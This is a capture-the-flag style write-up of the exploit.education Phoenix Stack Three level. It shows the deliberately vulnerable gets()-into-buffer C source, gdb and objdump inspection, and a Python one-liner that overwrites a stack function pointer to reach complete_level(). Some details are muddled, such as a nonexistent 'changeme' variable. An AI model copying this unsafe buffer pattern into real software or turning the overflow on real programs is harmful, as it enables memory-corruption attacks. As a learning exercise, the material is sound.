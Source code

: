 ```yaml
---
description: 07/17/2023
---
```


# 3⃣ StackThree

> Stack Three looks at overwriting function pointers stored on the stack.

#### Hints

* You can use `gdb` and `objdump` to determine where the `complete_level()` <mark style="color:yellow;">function</mark> <mark style="color:yellow;">is in memory</mark>.

## Source Code

```c
/*
 * phoenix/stack-three, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * When does a joke become a dad joke?
 *   When it becomes apparent.
 *   When it's fully groan up.
 *
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
  } else {
    printf("function pointer remains unmodified :~( better luck next time!\n");
  }

  exit(0);
}
```

Our main goal is to find out where the `changeme()` variable is.

Once we locate it in memory, we need to change the value to: `0x0d0a090a`.

* `0x0d0a090a`
* `\x0a\x09\x0a\x0d`

<figure><img src="../../../.gitbook/assets/image (26).png" alt=""><figcaption></figcaption></figure>

## GDB

```
gdb stack-three
```

Let's check out the disassembly for the `main()` function:

<figure><img src="../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>

Let's check out the disassembly for the `complete_level()` function:

<figure><img src="../../../.gitbook/assets/image (60).png" alt=""><figcaption></figcaption></figure>

We can see that `0x000000000040069d` is the memory address for the stack base pointer (`rbp`) for our function.

Let's try and mess with the program a bit more and send it a long string:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (4).png" alt=""><figcaption></figcaption></figure>

Interesting, we ended up receiving a segmentation fault, meaning our program attempted to write/access out of bounds memory and in return forcefully crashed our program to protect our system.

We ended up getting the message calling function pointer `0x585858`... and was curious to see what that looked like in the ASCII table:

Hex `58` is equivalent to char `X`. We can see this by doing `man ascii`:

<figure><img src="../../../.gitbook/assets/image (2) (1) (2).png" alt=""><figcaption></figcaption></figure>

## Exploitation

So, if we go back and look at our `complete_level()` function, we need to get the program to call this so we can move on to the next level.

I also wanted to diversify with the tooling a little and decided to check out the same information in objdump as well. We can manually go through all of the disassembly without grepping for our function that we are looking for, but who wants to do that?

```
objdump -d stack-three | grep complete_level  
000000000040069d <complete_level>:
```

Take the following snippet of `main()`:

```c
int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int (*fp)();
  } locals;

  printf("%s\n", BANNER);

  locals.fp = NULL;
  gets(locals.buffer);

  if (locals.fp) {
    printf("calling function pointer @ %p\n", locals.fp);
    fflush(stdout);
    locals.fp();
```

This is interesting ebcause we see our function pointer (`fp`) being set to `NULL`. `gets()` will take our input and store it within the 64-byte buffer (`buffer[64]`). And lastly in our `main()` function `locals.fp()` will be called to call whatever is stored in our function pointer (`fp`).

With that said, let's take the function pointer's address and convert it to little-endian and overwrite the buffer:

```
python -c 'print "X"*64 + "\x9d\x06\x40"' | ./stack-three
```

With our function pointer's address: `0x000000000040069d`, we take that and convert it to little-endian: `\x9d\x06\x40`, overwrite our 64-byte buffer that's specified within our structure, and send it to the binary, we're able to overwrite our function pointer!

<figure><img src="../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>
